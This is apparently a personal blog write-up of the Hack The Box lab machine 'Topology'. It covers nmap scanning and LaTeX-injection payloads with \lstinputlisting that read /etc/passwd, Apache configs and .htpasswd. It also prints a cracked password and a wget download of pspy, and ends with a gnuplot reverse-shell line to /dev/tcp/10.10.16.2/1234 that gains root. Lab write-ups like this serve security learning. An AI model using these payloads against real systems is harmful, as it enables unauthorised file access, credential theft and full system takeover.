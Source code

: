 ```yaml
---
title: "Topology from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Topology from HTB
`Nmap`gave this:
```bash
nmap -sCV --min-rate 4000 10.10.11.217
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 14:33 +04
Nmap scan report for latex.topology.htb (10.10.11.217)
Host is up (0.087s latency).
Not shown: 932 filtered tcp ports (no-response), 66 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| -     2023-01-17 12:26  demo/
| 1.0K  2023-01-17 12:26  demo/fraction.png
| 1.1K  2023-01-17 12:26  demo/greek.png
| 1.1K  2023-01-17 12:26  demo/sqrt.png
| 1.0K  2023-01-17 12:26  demo/summ.png
| 3.8K  2023-06-12 07:37  equation.php
| 662   2023-01-17 12:26  equationtest.aux
| 17K   2023-01-17 12:26  equationtest.log
| 0     2023-01-17 12:26  equationtest.out
| 28K   2023-01-17 12:26  equationtest.pdf
|_
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There is some directory listing going on.
Search the `IP`and then there is only one link. Click that:
Add this to `/etc/hosts`:
```
10.10.11.217 latex.topology.htb
```
And access the site.
It is
```
LaTeX Equation Generator
```
Then i used commands from `latex injection`but it denied saying `Illegal command detected`. From this https://ctan.math.illinois.edu/macros/latex/contrib/listings/listings.pdf there is a command
```
Finally we come to \lstinputlisting, the command used to pretty-print stand alone files. It has one optional and one file name argument. Note that you possibly need to specify the relative path to the file. Here now the result is printed below the verbatim code since both together don’t fit the text width.
```
`\lstinputlisting`
```
\lstinputlisting{/etc/passwd}
```
Doesn't give us anything which is better than not being able to use it. So we have to format it. Reading all the `directory files Nmap gave` i discovered way to format it.
In http://latex.topology.htb/equationtest.tex There is this command:
```
$ \int_{a}^b\int_{c}^d f(x,y)dxdy $
```
So we have to type `$`at the start and end.
Command will look like this:
```
$\lstinputlisting{/etc/passwd}$
```
And the output will be image reading the `/etc/passwd file`.
The use of subdomains like `latex.topology.htb` is interesting since there could be more virtual hosts `( vHosts )` configured on this `webserver`.  So i explored `apache2`file in my `PC`and discovered this file `/etc/apache2/sites-available/000-default.conf` Here is written subdomain names.
```
$\lstinputlisting{/etc/apache2/sites-available/000-default.conf}
```
Will give us image where is written all the `subdomain names` which are: `stats   dev`. Add that to `/etc/hosts`file:
```
10.10.11.217 stats.topology.htb dev.topology.htb
```
`http://dev.topology.htb/`this subdomain forces me to input `Username and Password`
So there must be `password and username`somewhere
```
$\lstinputlisting{/var/www/dev/.htaccess}$
```
Tells says `.htpasswd` so i inspect it:
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
And i'm greeted with `Username and hashed password`:
vdaisley   $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
cracked Password is `calculus20`. Then went to `ssh`and Logged in.
```bash
ssh vdaisley@10.10.11.217
vdaisley@10.10.11.217's password:
sudo -l
[sudo] password for vdaisley:
Sorry, user vdaisley may not run sudo on topology.
--------------------
vdaisley@topology:~$ cat user.txt
f9bd6f70eaff113af023f3cdcdbd090a
--------------------
wget http://10.10.16.2:8000/pspy64s
chmod +x pspy64s
vdaisley@topology:~$ ./pspy64s
2024/08/11 07:03:01 CMD: UID=0    PID=2102   | find /opt/gnuplot -name *.plt -exec gnuplot {} ;
2024/08/11 07:03:01 CMD: UID=???  PID=2101   | ???
2024/08/11 07:03:01 CMD: UID=0    PID=2100   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
2024/08/11 07:03:01 CMD: UID=0    PID=2095   | /bin/sh /opt/gnuplot/getdata.sh
2024/08/11 07:03:01 CMD: UID=0    PID=2094   | /bin/sh -c /opt/gnuplot/getdata.sh
2024/08/11 07:03:01 CMD: UID=0    PID=2109   | gnuplot /opt/gnuplot/networkplot.plt
vdaisley@topology:/opt/gnuplot$ vi shell.plt
```
Shell contains `gunplot command for reverse shell`:
```bash
cmdout = system("/bin/bash -c '/bin/sh -i >& /dev/tcp/10.10.16.2/1234 0>&1'")
print cmdout
```
This will get executed and you will get connection on `NetCat 1234`port and you will be `root`.
```bash
# cat /root/root.txt
0cf48f1617c9ac05307fda9abc8d7a0b
```
![](/assets/images/Screenshot from 2024-08-11 15-10-27.png)
